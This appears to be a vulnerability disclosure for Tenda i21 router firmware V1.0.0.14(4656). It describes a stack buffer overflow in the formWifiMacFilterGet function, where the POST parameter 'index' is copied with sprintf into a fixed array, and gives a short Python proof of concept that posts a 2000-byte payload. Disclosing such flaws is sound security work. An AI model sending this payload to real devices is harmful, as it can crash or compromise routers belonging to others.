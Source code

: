 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formWifiMacFilterGet` function. The `index` variable receives the `index` parameter from a POST request. However, since the user can control the input of `index`, the statement `sprintf(mib_prefix, "wl2g.ssid%s.", index);` can cause a buffer overflow. The user-provided  `index` can exceed the capacity of the `mib_prefix` array, triggering this security vulnerability.

![image-20240419205033785](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419205033785.png)

![image-20240419205026328](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419205026328.png)

## POC

```python
payload = b"a"*2000

data = {"wl_radio": "0", "index": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
